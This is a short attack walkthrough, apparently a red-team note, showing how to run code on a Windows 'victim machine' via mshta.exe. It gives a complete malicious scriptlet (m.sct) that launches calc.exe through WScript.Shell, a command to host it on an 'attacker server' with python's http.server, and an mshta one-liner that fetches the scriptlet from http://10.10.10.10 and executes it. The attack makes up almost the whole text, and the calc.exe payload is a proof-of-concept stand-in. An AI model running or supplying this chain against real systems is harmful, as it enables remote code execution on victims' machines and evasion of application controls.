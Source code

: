 # Attacker server
- Create malicious file (m.sct):
```xml
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
        function Exec() {
                var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
        }
]]>
</script>
</scriptlet>
```
- Run listenning server:
```python
python3 -m http.server 80
```

# Victim machine
- Open cmd.exe and run the following command
```cmd
mshta.exe javascript:a=(GetObject("script:http://10.10.10.10/m.sct")).Exec();close();
```
